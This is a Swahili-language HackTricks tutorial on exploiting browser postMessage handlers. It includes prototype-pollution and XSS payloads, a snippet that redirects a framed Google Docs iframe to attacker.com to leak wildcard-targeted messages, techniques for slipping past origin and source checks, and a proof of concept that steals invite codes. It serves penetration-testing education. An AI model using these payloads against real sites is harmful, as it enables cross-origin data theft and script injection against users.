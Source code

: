 # Mianzo ya Uvamizi wa AWS kutoka sifuri hadi shujaa na htARTE (HackTricks AWS Red Team Expert)!

Njia nyingine za kusaidia HackTricks:

- Ikiwa unataka kuona **kampuni yako inatangazwa katika HackTricks** au **kupakua HackTricks katika PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
- Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
- Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
- **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
- **Shiriki mbinu zako za kuvamia kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

## Tuma **Ujumbe wa PostMessage**

**PostMessage** hutumia kazi ifuatayo kutuma ujumbe:
```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
Tafadhali kumbuka kuwa **targetOrigin** inaweza kuwa '\*' au URL kama _https://company.com._\
Katika **skenario ya pili**, **ujumbe unaweza kutumwa tu kwa kikoa hicho** (hata kama asili ya kitu cha dirisha ni tofauti).\
Ikiwa **alama ya wilaya** inatumika, **ujumbe unaweza kutumwa kwa kikoa chochote**, na utatumwa kwa asili ya kitu cha Dirisha.

### Kuvamia iframe na alama ya wilaya katika **targetOrigin**

Kama ilivyoelezwa katika [**ripoti hii**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) ikiwa unapata ukurasa ambao unaweza **kuingizwa kwenye iframe** (hakuna ulinzi wa `X-Frame-Header`) na ambao unatuma ujumbe wa **siri** kupitia **postMessage** kwa kutumia **alama ya wilaya** (\*), unaweza **kubadilisha** asili ya **iframe** na **kuvuja** ujumbe wa **siri** kwa kikoa kinachodhibitiwa na wewe.\
Tafadhali kumbuka kuwa ikiwa ukurasa unaweza kuingizwa kwenye iframe lakini **targetOrigin imewekwa kwa URL na sio alama ya wilaya**, **hila hii haitafanya kazi**.
```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```
## Uchambuzi wa Utekelezaji wa addEventListener

**`addEventListener`** ni kazi inayotumiwa na JS kuweka wazi kazi ambayo inatarajia kupokea **`postMessages`**.\
Msimbo kama ufuatao utatumika:
```javascript
window.addEventListener("message", (event) => {
if (event.origin !== "http://example.org:8080")
return;

// ...
}, false);
```
Tafadhali kumbuka katika kesi hii jinsi **jambo la kwanza** ambalo msimbo unafanya ni **kuangalia asili**. Hii ni muhimu sana hasa ikiwa ukurasa utafanya **kitu chochote cha hisia** na habari iliyopokelewa (kama kubadilisha nenosiri). **Ikiwa haikagua asili, wadukuzi wanaweza kufanya waathirika kutuma data ya kiholela kwa sehemu hizi** na kubadilisha nywila za waathirika (katika mfano huu).

### Uchunguzi

Ili **kupata wasikilizaji wa tukio** katika ukurasa wa sasa unaweza:

* **Tafuta** msimbo wa JS kwa `window.addEventListener` na `$(window).on` (_toleo la JQuery_)
* **Tekeleza** katika kikasha cha zana za watengenezaji: `getEventListeners(window)`

![](<../../.gitbook/assets/image (618) (1) (1).png>)

* **Nenda kwenye** _Elements --> Wasikilizaji wa Tukio_ katika zana za watengenezaji wa kivinjari

![](<../../.gitbook/assets/image (617).png>)

* Tumia **nyongeza ya kivinjari** kama [**https://github.com/benso-io/posta**](https://github.com/benso-io/posta) au [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker). Nyongeza hizi za kivinjari zitakuwa **zinaingilia ujumbe wote** na kuonyesha kwako.

### Kupitisha ukaguzi wa asili

- Sifa ya **`event.isTrusted`** inachukuliwa kuwa salama kwani inarudi `True` tu kwa matukio ambayo yamezalishwa na hatua halisi za mtumiaji. Ingawa ni changamoto kuihepa ikiwa imeboreshwa kwa usahihi, umuhimu wake katika ukaguzi wa usalama ni muhimu.

- Matumizi ya **`indexOf()`** kwa ukaguzi wa asili katika matukio ya PostMessage yanaweza kuwa rahisi kupitisha. Mfano unaoonyesha udhaifu huu ni:

```javascript
("https://app-sj17.marketo.com").indexOf("https://app-sj17.ma")
```

- Mbinu ya **`search()`** kutoka `String.prototype.search()` inalenga kwa mifumo ya kawaida, sio herufi. Kupitisha kitu kingine chochote isipokuwa herufi kunasababisha ubadilishaji wa kimya kimya kuwa herufi, hivyo kufanya mbinu hiyo kuwa hatari. Hii ni kwa sababu katika mifumo ya kawaida, kipengele cha dot (.) kinatenda kama kichwa cha habari, kuruhusu kupitisha ukaguzi na vikoa vilivyoundwa kwa umakini. Kwa mfano:

```javascript
"https://www.safedomain.com".search("www.s.fedomain.com")
```

- Kazi ya **`match()`**, kama vile `search()`, inachakata mifumo ya kawaida. Ikiwa mifumo ya kawaida imeundwa vibaya, inaweza kuwa rahisi kupitisha.

- Kazi ya **`escapeHtml`** inalenga kusafisha pembejeo kwa kutoroka herufi. Walakini, haizalishi kitu kipya kilichotoroka lakini inaandika upya mali za kitu kilichopo. Tabia hii inaweza kutumiwa vibaya. Hasa, ikiwa kitu kinaweza kubadilishwa ili mali yake inayodhibitiwa isitambue `hasOwnProperty`, `escapeHtml` haitafanya kazi kama ilivyotarajiwa. Hii inaonyeshwa katika mifano hapa chini:

- Kosa linalotarajiwa:
```javascript
result = u({
message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
```

- Kupitisha kutoroka:
```javascript
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

Katika muktadha wa udhaifu huu, kitu cha `File` kinaweza kudukuliwa kwa sababu ya mali yake ya kusoma tu ya `name`. Mali hii, wakati inatumika katika templeti, haipatikani kwa njia ya kusafisha na kazi ya `escapeHtml`, hivyo kusababisha hatari za usalama.

- Mali ya `document.domain` katika JavaScript inaweza kuwekwa na hati ya kusitisha kikoa, kuruhusu utekelezaji wa sera ya asili sawa zaidi ndani ya kikoa kimoja cha mzazi.

### Kupitisha e.origin == window.origin

Wakati wa kuingiza ukurasa wa wavuti ndani ya **iframe iliyofungwa** kwa kutumia %%%<iframe sandbox="allow-scripts" src="https://example.com/iframe.php">%%%, ni muhimu kuelewa kuwa asili ya iframe itawekwa kama `null`. Hii ni muhimu hasa wakati unashughulika na **sifa za kisanduku** na athari zake kwa usalama na utendaji.

Kwa kutoa **`allow-popups`** katika sifa ya kisanduku, dirisha lolote la kujitokeza lililofunguliwa kutoka ndani ya iframe linarithi vizuizi vya kisanduku cha mzazi wake. Hii inamaanisha kwamba isipokuwa **`allow-popups-to-escape-sandbox`** pia imejumuishwa, asili ya dirisha la kujitokeza pia inawekwa kama `null`, ikilinganisha na asili ya iframe.

Kwa hiyo, wakati dirisha la kujitokeza linapofunguliwa chini ya hali hizi na ujumbe unatumwa kutoka kwa iframe kwenda kwa dirisha la kujitokeza kwa kutumia **`postMessage`**, pande zote za kutuma na kupokea zina asili zao zimepangwa kama `null`. Hali hii inasababisha hali ambapo **`e.origin == window.origin`** inahesabiwa kuwa kweli (`null == null`), kwa sababu iframe na dirisha la kujitokeza wanashiriki thamani sawa ya asili ya `null`.

Kwa habari zaidi **soma**:

{% content-ref url="bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

### Kupitisha e.source

Inawezekana kuangalia ikiwa ujumbe ulitoka kwenye dirisha lile lile ambalo skripti inasikiliza (hasa muhimu kwa **Skripti za Yaliyomo kutoka kwa nyongeza za kivinjari** kuangalia ikiwa ujumbe ulitumwa kutoka kwenye ukurasa huo):
```javascript
// If it’s not, return immediately.
if( received_message.source !== window ) {
return;
}
```
Unaweza kulazimisha **`e.source`** ya ujumbe kuwa tupu kwa kuunda **iframe** ambayo **inatuma** **postMessage** na **kufutwa mara moja**.

Kwa habari zaidi **soma:**

{% content-ref url="bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

### Kupita kizuizi cha X-Frame-Header

Ili kufanya mashambulizi haya, kwa idealni utaweza **kuweka ukurasa wa mwathirika** ndani ya `iframe`. Lakini vichwa vya habari kama `X-Frame-Header` vinaweza **kuzuia** hilo **tabia**.\
Katika hali hizo, bado unaweza kutumia shambulizi lisilo la siri. Unaweza kufungua kichupo kipya kwenye programu dhaifu ya wavuti na kuwasiliana nayo:
```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```
### Kuiba ujumbe uliotumwa kwa mtoto kwa kuzuia ukurasa kuu

Katika ukurasa ufuatao unaweza kuona jinsi unavyoweza kuiba data ya **postmessage nyeti** iliyotumwa kwa **mtoto iframe** kwa **kuzuia** ukurasa **mkuu** kabla ya kutuma data na kutumia **XSS katika mtoto** kuiba data kabla haijapokelewa:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### Kuiba ujumbe kwa kubadilisha eneo la iframe

Ikiwa unaweza kuweka iframe ya ukurasa bila kichwa cha X-Frame kinachojumuisha iframe nyingine, unaweza **kubadilisha eneo la iframe ya mtoto**, hivyo ikiwa inapokea **postmessage** iliyotumwa kwa kutumia **wildcard**, mshambuliaji anaweza **kubadilisha** asili ya iframe hiyo kuwa ukurasa **anayodhibiti** na **kuiba** ujumbe:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage kwa Prototype Pollution na/au XSS

Katika mazingira ambapo data inayotumwa kupitia `postMessage` inatekelezwa na JS, unaweza kuweka **iframe** ya **ukurasa** na **kutumia** **prototype pollution/XSS** kwa kutuma shambulio kupitia `postMessage`.

Mifano miwili ya **XSS iliyoelezewa vizuri sana kupitia `postMessage`** inaweza kupatikana katika [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Mfano wa shambulio la kutumia **Prototype Pollution na kisha XSS** kupitia `postMessage` kwa `iframe`:
```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
</script>
</body>
</html>
```
Kwa **mashauri zaidi**:

* Kiungo kwa ukurasa kuhusu [**uchafuzi wa mfano**](../deserialization/nodejs-proto-prototype-pollution/)
* Kiungo kwa ukurasa kuhusu [**XSS**](../xss-cross-site-scripting/)
* Kiungo kwa ukurasa kuhusu [**uchafuzi wa mfano wa upande wa mteja hadi XSS**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)

## Marejeo

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* Kwa mazoezi: [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
